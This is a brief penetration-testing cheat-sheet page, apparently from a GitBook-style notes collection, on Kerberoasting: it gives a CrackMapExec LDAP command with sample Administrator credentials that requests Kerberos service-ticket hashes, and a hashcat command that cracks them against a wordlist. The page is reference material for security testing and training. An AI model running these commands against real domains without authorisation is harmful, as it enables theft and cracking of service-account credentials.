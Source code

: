```yaml
---
description: >-
  Kerberoasting with CrackMapExec - Retrieve the Kerberos 5 TGS-REP etype 23
  hash
---
```


# 🟠 Kerberoasting

{% code overflow="wrap" %}
```
crackmapexec ldap 192.168.1.119 -u Administrator -p 'Password!' --kerberoasting output.txt
```
{% endcode %}

### Crack The Hash

```
hashcat -m 13100 output.txt wordlist.txt
```
